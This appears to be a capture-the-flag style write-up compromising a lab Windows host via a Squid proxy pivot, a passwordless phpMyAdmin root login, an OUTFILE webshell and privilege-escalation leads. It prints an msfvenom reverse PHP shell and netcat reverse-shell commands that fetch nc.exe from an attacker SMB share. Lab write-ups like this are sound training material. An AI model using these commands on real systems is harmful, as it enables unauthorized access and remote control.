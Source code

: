 ## IP

192.168.57.189

## NMAP TCP

```nmap-tcp-squid
??$ nmap -sC -sV 192.168.57.189 -Pn                                                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-28 15:55 UTC
Nmap scan report for 192.168.57.189
Host is up (0.00096s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3128/tcp open  http-proxy    Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-04-28T15:55:57
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.32 seconds
```

## 3128 (Squid Proxy)

Use [Spose](https://github.com/aancw/spose.git) to test internally acessible ports

```spose-usage
??$ python spose.py --proxy http://192.168.57.189:3128 --target 192.168.57.189
Using proxy address http://192.168.57.189:3128
192.168.57.189 3306 seems OPEN 
192.168.57.189 8080 seems OPEN 
```

Found 3306 and 8080 open

Setup http proxy through this in Firefox

## 8080 Internal

It's a Wampserver

Apache 2.4-MySQL 5 & 8-MariaDB 10-PHP 5 & 7 

3306 is the MySQL port for MySQL 5.7.31

192.168.57.189:8080/phpmyadmin -> PHP MyAdmin

Default credentials:
```phpmyadmin-creds
root

```

null password worked, logged into PHPMyAdmin as root connected to the MySQLServer

Used SQL to OUTFILE to create a webshell for file upload:

[payload](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f?ref=benheater.com)

Uploaded msfvenom php shell:

```msfvenom-phpshell
msfvenom -p php/reverse_php LHOST=192.168.49.57 LPORT=443 -f raw -o shell.php
```

Connection via nc listener

Upgraded shell to cmd via:

```smbserver-nc-shell
cp /usr/share/windows-resources/binaries/nc.exe .
smbserver.py -smb2support -username evil -password evil evil $PWD
```

On Target:

```smbshare-receive
net use z: \\192.168.49.57\evil /user:evil evil
Z:\nc.exe 192.168.49.57 80 -e cmd.exe
```

## Local Privilege Enumeration

```local-whoami-all
C:\wamp\www>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID     
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                                        
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                                       
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

ERROR: Unable to get user claims information.
```


No service related impersonate privileges

**READ** [THIS](https://itm4n.github.io/localservice-privileges/)

[Exploit based on this](https://github.com/itm4n/FullPowers)
